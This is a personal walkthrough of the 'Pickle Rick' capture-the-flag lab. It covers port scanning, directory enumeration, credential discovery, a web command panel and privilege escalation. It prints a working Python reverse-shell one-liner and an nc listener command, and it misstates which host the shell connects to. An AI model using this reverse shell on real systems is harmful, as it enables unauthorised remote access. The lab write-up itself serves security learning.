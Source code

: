 # Pickle Rick CTF

------------------------------------------------------------
This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application: 10.10.212.184

My first step was to enter the url 10.10.212.184 into my web browser to check on any initial information because there was minimal context given in the prompt.

![pickle rick ctf homepage](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/5fc63bc0-8f3e-4e65-9299-136c1836c6dc)

Looking into the source of the landing page, we find a username.

![url inspect](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/3e8d26d7-ad9b-48d6-badf-f32ff3dbb930)

- Username:R1ckRul3s

After taking a look webpage, I decided to do a portscan using the nmap tool. Utilizing the -sV and -A flags, I was able to gain information about open ports, operating systems, versions, script scans, and tracerouting. 

![sudo nmap -sV -A](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/6f9ef322-61d3-40fc-9b14-8e75737882ae)

Finding that ssh is open is an indicator that we will likely be executing a reverse shell to connect through that open ssh port.

We now need a way to find any valid urls to gain more information about the size of our attack surface. Using the gobuster tool, we can try enough variations to have a good starting point. I decided to use the medium directory list included in Kali Linux and found 8 potential leads.

![gobuster force directory](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/2050371a-989e-4afc-ad9a-57c47041f866)

Exploring the listed links in the assets page:

![asset url](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a6acefd2-e345-4ad5-b66f-d7d92739602b)

I suspected based on the amount of images and gifs that I would find stenography in these links, but unfortunately that effort came up short.

The login.php link guides us to a typical login page, and the robots.txt link led us to a strange string of text. 

![robotstxt](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/b3cf7742-caac-47cb-93fd-24757be073ef)

I decided to attempt using this string from robots.txt as a password and was successful.

From here we were given a command line labeled "command panel" with an "execute" button underneath.

After exploring the files and directories a bit, I decided to run a grep -R . command where the . serves as a wildcard matching all characters. This command outputs each character available recursively. It isn't ideal in terms of organizing the data, but it's a great way to get an idea of the amount of information we are looking at. 

![grep -R   ](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/a9ef3466-460b-49d6-9019-8a2b596415f4)

Toward the bottom of the output, I saw this:

![mr  meeseek hair first clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/27425378-d616-4092-9e1f-b701093939de)

I inserted this into the first clue and we've successfully found our first potion ingredient!

At this point, I tested python3 "print('hello')" to see if we would be able to run python scripts through the command and we were able to print hello succesfully! 

I set up a nc listener on port 9001 in my terminal running:

nc -lvnp 9001 

using revshells.com I generated a python3 reverse shell:

export RHOST="10.10.212.184";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'

Once I established a connection, I navigated the files until I checked the home directory. Here I found a directory named "Ricky". Inside that directory, I found a file named "second ingredients", so I knew that we had found our second flag. I read the file using cat *

![1 jerry tear second clue](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/89b2cdc4-b174-432f-9ead-4ad387ba6641)

I spent longer than I should continuing to investigate the machine from this point, and eventually it occurred to me that I hadn't done any privilege escalation up to this point. 

I ran the command sudo -l to get information about the elevated users on the machine and was surprised to see there was no password set for the root user on the machine.

![priv escalation sudo -l found no pw](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/4dbc1b4e-775c-4450-af64-e2d2ef303c33)

From here I entered cd /root and then ls to list files that may not have been visible to me before.  As you can see,  I found a file named 3rd.txt 

![third clue visible as root user](https://github.com/Cody-Rochester/Obsidian-git-sync/assets/107632714/0320688d-ea05-4894-ae84-d7442f0e722e)

As you can see, I ran cat 3rd.txt and found our final ingredient which happened to fleeb juice of course!

This concluded the exercise and once we combine the ingredients and bring the potion to Rick, he will no longer be a pickle!

# Takeaways:

- **Initial Exploration:**
    
    - Inspect the web application's source code for clues.
    - Discover the username "R1ckRul3s" in the source.
- **Port Scanning:**
    
    - Use nmap for port scans to identify potential vulnerabilities.
    - Focus on open SSH ports for potential exploitation.
- **Directory Enumeration:**
    
    - Employ gobuster to find valid URLs.
    - Use robots.txt strings as potential passwords.
- **Command Line Exploration:**
    
    - Exploit login success to access a labeled command line.
    - Utilize commands like grep for recursive file searches.
- **Reverse Shell:**
    
    - Confirm the ability to run scripts through the command line.
    - Establish a reverse shell for remote access.
- **Privilege Escalation:**
    
    - Check for elevated users with `sudo -l`.
    - Discover no password requirement for root user.
- **Root Access:**
    
    - Navigate to root directories, find "3rd.txt" for the final ingredient.



